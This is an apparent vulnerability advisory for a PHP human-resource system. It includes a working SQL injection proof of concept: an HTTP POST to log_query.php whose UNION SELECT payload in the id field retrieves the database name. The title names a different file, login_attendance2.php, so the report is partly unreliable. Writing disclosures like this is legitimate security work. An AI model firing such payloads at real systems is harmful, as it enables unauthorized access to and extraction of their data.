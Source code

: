 # Human Resource Integrated System has SQL Injection in login_attendance2.php

## supplier 

https://code-projects.org/human-resource-integrated-system-in-php-with-source-code/

## Vulnerability file

log_query.php

## Describe

The id parameter in log_query.php is vulnerable to SQL injection due to improper input validation and the absence of parameterized queries. An attacker can exploit this weakness by injecting malicious SQL statements to manipulate database queries, which may lead to unauthorized access, data extraction, or modification of sensitive information. 

![image-20250823015710606](image/image-20250823015710606.png)

## POC

```
POST /log_query.php HTTP/1.1
Host: hris
Content-Length: 73
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=uacifcaoa5pohuc94hg8dnohh5
Connection: close

save=1&id=-1'+union+select+1,1,1,1,1,1,1,1,1,(select+database()),1,1,1--+
```

Send this request, you can get the databsae name.